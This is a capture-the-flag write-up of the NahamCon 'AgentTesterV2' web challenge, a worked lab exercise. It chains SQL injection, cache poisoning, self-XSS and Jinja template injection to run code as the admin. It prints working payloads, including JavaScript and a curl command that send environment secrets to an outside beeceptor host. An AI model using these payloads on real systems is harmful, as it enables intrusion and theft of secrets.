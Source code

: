 # AgentTesterV2 WriteUp
The challenge was an updated version of the **AgentTester** challenge, thats why i'll only summarize some of the already known steps. The challenges differ because the passwords are hashed now and we can't just login anymore.

# Challenge Setup
The websites provides an input form which lets you test a user agent.
The functionality is hidden behind a login but we can register new accounts. 
Since we have the source code we know that the flag is stored inside an environment variable.

We also know from the previous challenge that we can gain code execution once we reach the **/debug** endpoint with admin privileges.

# Issueing arbitrary requests
The site uses puppeteer to open a browser and issue requests to google.com with our selected user-agent.
If you solved the first challenge then you know that there is a sql-injection reachable via the user-agent input.

```python
  query = db.session.execute("SELECT userAgent, url FROM uAgents WHERE userAgent = %s'" % uAgent).fetchone()
```

In the first challenge we could simply get the admin password by entering:

```' Union Select GROUP_CONCAT(password) as 'userAgent', 'https://example.com' as 'url' FROM user --```

In the updated version this approach does not work since the **passwords are hashed now**.
```python
    bcrypt.hashpw(password.encode(), current_salt).decode()
```
The sqli now returns "$2b$12$ROJ9y4KrrNx7PiKaOh9lmOPnRBnQfkedGq4r4jWa.Vp/SYQYD8E/e" and I did not even bother to crack it.

We can still use the sqli to set an arbitrary location/user-agent for the browser to visit:

```' Union Select 'asdf' as 'userAgent', 'https://ghjkl.free.beeceptor.com' as 'url```

By setting the url to a beeceptor url we can see the headers and body that the browser has set, 
but there is nothing interesting to see since the cookie has a domain set and it isn' accessible by javascript either.

```javascript
    const cookies = [{
    'name': 'auth2',
    'value': '<REDACTED>',
    'domain': base_url,
    'httpOnly': true
  }];
```
We have blind SSRF which isn't currently of any use. :(

# Failed attempts
I tried letting the puppeteer browser (which has the admin cookie set) visit various pages but found nothing of use.
After a while I noticed that since its headless browser and not just a request that is issued that 
i can let the admin visit a site that I created and execute arbitrary javascript on my page.

When thinking of client side attacks the first thing that comes to mind is XSS.
So I tried looking for reflected xss in the success/error parameters of the login page, but no luck since jinja escapes malicious characters.

The second thing I thought of was **CSRF**. I can simply let send a post request to the **/debug** endpoint and gain code execution.
I know that CORS blocks the response of the post call but I could still exfiltrate data using curl.

```javascript
   var first = new XMLHttpRequest();
    var maliciousurl = 'http://challenge.nahamcon.com:30612/debug';
    first.open('POST', maliciousurl);
    first.withCredentials = true;
    first.onload = reqListener;
    first.send("code={{request.application.__globals__.__builtins__.__import__('os').popen('curl https://ghjkl.free.beeceptor.com').read()}}");
```

After trying for some time and different variations of the payload I admitted to myself that this wasn't the correct route and took a break.
I don't exactly know why it faild either flask or chromes same-site per default.

# Self XSS + Web Cache Poisoning
The next day I decided look at the **nginx.conf**.
The thing that caught my attention almost immediatly was:
```proxy_cache_key $request_uri$http_user_agent;```

If you haven't been living under a rock the last year you have read @albinowax research on webcache poisoning:
https://portswigger.net/web-security/web-cache-poisoning

Since the cache key consists of **url + useragent** every request to a profile url with a specific user-agent is cached for 10 seconds.

The first thing I tried was letting the admin visit the url **http://challenge.nahamcon.com:31220/profile/1** (1 is the admin id) with **user-agent: asdf**

Then I issued the a request to the same url with the same user-agent.

```curl -H "Cookie: auth2=eyJpZCI6Mn0.YE3nwQ.1VKe6fgmTWvSNy5B-VWTRlGQN4M" http://challenge.nahamcon.com:31220/profile/1 -A asdf```

It worked I got the cached response with the admin email: admin@admin.com and about field, but the profile does not contain anything interesting to work with.

After a while I came to the conclusion that I can let the admin visit the cached version of my own profile and I began searching for an Self-XSS.
The first and spimplest payload I tried worked: 
```"><script>alert(1)</script>```

Now I knew what I had to do: 
- Xss myself and send a request to the debug endpoint
- Let nginx cache the site with a specific user agent
- Let the admin visit my profile with that user agent
- Admin sends the post request to the /debug endpoint and code execution 


My first attempt of the xss payload:
```javascript
var first = new XMLHttpRequest();
var maliciousurl = 'http://challenge.nahamcon.com:31220/debug';
first.open('POST', maliciousurl);
first.withCredentials = true;
first.onload = reqListener;
first.send("code={{request.application.__globals__.__builtins__.__import__('os').popen('getenv').read()}}");

function reqListener() {
    var exfiltraterequest = new XMLHttpRequest();
    var maliciousurl = 'https://asdfg.free.beeceptor.com/result';
    exfiltraterequest.open('POST', maliciousurl);
    exfiltraterequest.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    exfiltraterequest.send('responsehtml=' + encodeURIComponent(String(this.responseText)));
};
```
### Code execution
The rce part is the same as in AgentTesterV1 the **/debug** endpoints renders an in the body provided template string.
```python
        code = request.form.get("code", "<h1>Safe Debug</h1>")
        return render_template_string(code)
```
Its common knowlege that you can gain code execution by rendering a string with an injected template, just google **jinja template injection**.

```{{request.application.__globals__.__builtins__.__import__('os').popen('getenv').read()}}```

This payload executes the command **getenv** and the post request then returns all environment variables which also contains our flag.

I base64 encoded the xss payload went to my profile and inserted:

```"><script>eval(atob("base64_encoded_payload"))</script>```

I fiddled around with the xss payload for a while till the request to the debug endpoint worked correctly in my browser and I decided to use fetch (because I was too stupid to get the XMLHttpRequest post to work :/ ). 
The first success was when I saw a request on my beeceptor url on the /result endpoint, but the response html was just the string "Safe Debug".

## Final xss payload
```javascript
fetch("/debug",
{
    method: "POST",
    headers: {"content-type": "application/x-www-form-urlencoded" }
    body: data
})
.then(function(res){ res.text().then(e=>{
 var exfiltraterequest = new XMLHttpRequest();
    var maliciousurl = 'https://asdfg.free.beeceptor.com/result';
    exfiltraterequest.open('POST', maliciousurl);
    exfiltraterequest.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    exfiltraterequest.send('responsehtml=' + encodeURIComponent(String(this.responseText)));
})
```

After making sure that the xss attack works on my end I was ready to cache the response and serve it to the admin.

Making sure the response for my profile is cached:

**curl -H "Cookie: auth2=eyJpZCI6Mn0.YE3nwQ.1VKe6fgmTWvSNy5B-VWTRlGQN4M" http://challenge.nahamcon.com:31220/profile/2 -A asdf**

After this request my profile is now cached for the user-agent asdf for 10 seconds.

Enter input for user Agent Test:
```' Union Select 'asdf' as 'userAgent', 'http://challenge.nahamcon.com:31220/profile/2' as 'url```

After sending this request he puppeteer browser starts visits my profile with the user-agent and gets serverd the cached xss payload.

After a few seconds I saw a request to the /result endpoint on my beeceptor endpoint and I was so happy when I saw that the body contained all the environment variables now just look for the **CHALLENGE_FLAG** variable to get the flag.

This was my first writeup so if you have any questions or suggestions you can reach me on twitter [@alkiiis](https://twitter.com/alkiiis)
